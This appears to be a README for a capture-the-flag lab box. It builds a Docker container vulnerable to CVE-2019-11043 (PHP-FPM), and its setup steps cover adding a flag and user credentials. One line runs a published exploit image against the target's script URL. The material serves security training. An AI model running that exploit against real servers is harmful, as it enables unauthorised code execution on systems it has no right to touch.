 # byol

### build docker image 
`docker build -t reproduce-cve-2019-11043 .`
### run docker image 
`docker run --rm -ti -p 8080:80 reproduce-cve-2019-11043`
### test exploit 
`docker run --rm --net=host ypereirareis/cve-2019-11043 <ip>:8080/script.php`

### docker install script if you're using kali 
`https://gist.githubusercontent.com/decidedlygray/1288c0265457e5f2426d4c3b768dfcef/raw/9a50356da74e6cd271e0b00902783cfa39c6535b/kali_docker_install.sh`


## steps to create 
* install docker using the script above
* add flag to box
* in the passwords.txt file add the credentials for a user in box
* run `docker build -t reproduce-cve-2019-11043 .`
* run `docker run --rm -ti -p 8080:80 reproduce-cve-2019-11043`
